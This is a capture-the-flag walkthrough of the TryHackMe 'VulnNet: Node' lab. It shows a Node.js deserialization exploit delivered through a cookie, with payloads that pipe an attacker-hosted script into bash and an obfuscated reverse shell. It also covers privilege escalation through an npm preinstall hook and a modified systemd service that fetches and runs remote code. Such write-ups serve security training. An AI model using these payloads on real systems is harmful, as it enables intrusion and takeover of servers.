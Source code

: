 ```yaml
---
description: Javascript
---
```


# 24 - VulnNet: Node

Room Link --> [https://tryhackme.com/room/vulnnetnode](https://tryhackme.com/room/vulnnetnode)

### Enumertion

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -sS 10.10.234.78 -Pn -n -p- -T5 -vv

# output
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 63
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Wappalyzer shows us the page is running NodeJS.

Enumerating with gobuster, ffuf returned "/login". Intercepting the request with burpsuite, we see we are already assigned a  cookie.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption><p>in b64 format</p></figcaption></figure>

Lets decode it, in the decoder bar i selected decode as b64.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking at the screenshot above we some some JSON encoded data. My first thought was maybe we could bypass the whole login process if we might change the cookie making the web application think we are admins

And i tried that first

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*-O0ze1yZRIpR9WQ1puhE0g.png" alt="" height="288" width="700"><figcaption></figcaption></figure>

Next i sent the modified session cookie and the web application throws a 500 statuscode error.

\


<figure><img src=".gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

When you google NodeJS Serialization exploits, you stumble on this article: [https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

{% code overflow="wrap" lineNumbers="true" %}
```bash
# this is the payload.
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```
{% endcode %}

We will modify the following payload a bit to get it working.

To make sure that the exploit was working i tried pinging myself. First i did set up a tcpdump listener.

<figure><img src=".gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got some replies back.

<figure><img src=".gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
# final payload
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.18.88.214/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}

# or we can use the nodeshell.py script on github:
https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

{"username":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,56,46,56,56,46,50,49,52,34,59,10,80,79,82,84,61,34,57,57,57,57,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()","isGuest":true,"encoding": "utf-8"}
```
{% endcode %}

And got shell.

<figure><img src=".gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Ess to Serv-manage

`sudo -l` - we can run npm with sudo as user "serv-manage"

So, we create a package.json with the following content:

<pre class="language-bash"><code class="lang-bash"><strong>echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
</strong></code></pre>

Then, we simply run `sudo -u serv-manage /usr/bin/npm i` and voila, we are logged in as `serv-manage`, which had the `user.txt` flag right in their home folder for us to read.

### Priv Esc to root

Running sudo -l again, we find that we can edit a system ditimer service called vulnnet-auto.timer

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

We are in the "serv-manage" group, so we have "RW" permissions to  modify this file.

<figure><img src=".gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

Let’s use locate to find the vulnnet service we have access to and examine it.

This service appears to refer to another service vulnnet-job.service let’s take a look at it too.

{% code overflow="wrap" lineNumbers="true" %}
```bash
locate vulnnet-auto.timer.timer
ls -lah /etc/systemd/system/vulnnet-job.service
cat /etc/systemd/system/vulnnet-job.service

# modified to
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "curl 10.18.88.214/shell.sh | bash"

[Install]
WantedBy=multi-user.target


```
{% endcode %}

Note i had to create a shell.sh file then put bash one-liner rev shell in it, and serve it in python server.

<figure><img src=".gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

Done.


